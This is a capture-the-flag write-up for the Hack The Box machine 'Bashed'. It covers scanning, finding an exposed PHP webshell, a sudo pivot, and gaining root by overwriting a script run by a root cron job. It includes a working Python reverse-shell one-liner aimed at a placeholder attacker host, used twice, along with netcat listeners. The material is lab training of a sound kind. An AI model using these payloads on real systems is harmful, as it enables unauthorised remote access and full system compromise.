



Machine: [Bashed](https://app.hackthebox.com/machines/Bashed?):
Easy . Linux

---
Tags: #webshell #misconfiguration-abuse #cron-hijack #privesc #linux

---
**Vulnerabilities:**
Information Disclosure — `/dev` directory exposed with active webshell
Misconfiguration — sudoers rule allows pivot from www-data to scriptmanager
Insecure File Permissions — script executed by root cron is writable by unprivileged user (Cron Hijacking)

---
🧰 Tools used: `namp` `ffuf` `netcat` `phpbash`

---
We performed a scan of open TCP ports:
```bash
❯ sudo nmap --open -Pn -p- -sS -n -vvv <VICTIM_IP> -oG allPorts

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

We identified service versions and ran default scripts against discovered ports:
```bash
❯ nmap -sVC -p80 <VICTIM_IP> -Pn

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

We fuzzed directories and files on the web server:
```bash
❯ ffuf -u http://bashed.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bashed.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

uploads                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 285ms]
css                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 2312ms]
dev                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 322ms]
images                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 2624ms]
php                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 324ms]
js                      [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 2984ms]
fonts                   [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 367ms]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12, Duration: 361ms]
```

We inspected the website


It redirected us to a git repository (https://github.com/Arrexel/phpbash) describing a PHP webshell:


Following the repository logic, we tried to see if a webshell was present on the site. Knowing the `/dev` directory existed, we searched directly for the webshell at `http://<VICTIM_IP>/dev/phpbash.php`:



We used the interactive webshell to execute commands on the server as `www-data`:
```bash
www-data@bashed

:/home/arrexel# id

  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We had permission to read the `user.txt` flag:
```bash
www-data@bashed
:/home/arrexel# cat user.txt
<FLAG_USER>
```

We checked `www-data` sudo permissions:
```bash
www-data@bashed

:/var/www/html/php# sudo -l

  
Matching Defaults entries for www-data on bashed:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User www-data may run the following commands on bashed:  
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

We started a listener with `netcat` on our attacking machine:
```bash
❯ nc -lvnp <PORT>
Listening on 0.0.0.0 <PORT>
```

We triggered a reverse shell using sudo privileges to run as `scriptmanager`:
```bash
sudo -u scriptmanager python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

We received the connection:
```bash
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on <VICTIM_IP> 33688
scriptmanager@bashed:/home$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

We listed directories at the system root to check write permissions:
```bash
scriptmanager@bashed:/$ ls -l
total 80
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 May 24 16:16 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 216 root          root              0 May 24 16:16 proc
drwx------   3 root          root           4096 May 24 16:17 root
drwxr-xr-x  18 root          root            520 May 24 16:16 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 May 24 16:16 sys
drwxrwxrwt  10 root          root           4096 May 24 17:17 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

The `/scripts` directory belongs to `scriptmanager`. Inside we found a `test.py` script
```bash
scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 May 24 17:22 test.txt
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
The file `test.txt` is owned by root but was written by the `test.py` script owned by scriptmanager, which indicates root executes that script periodically via cron.

We put `nc` in listen mode on port 1234
```bash
❯ nc -lvnp <PORT>
Listening on 0.0.0.0 <PORT>
```

We modified the `test.py` script by replacing its original code with a Python reverse shell payload:
```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")' > test.py
```

And we obtained our shell as root:
```bash
Connection received on <VICTIM_IP> 44614
root@bashed:/scripts# id
id
uid=0(root) gid=0(root) groups=0(root)
```

We retrieved the `root.txt` flag
```bash
cat /root/root.txt
<FLAG_ROOT>
```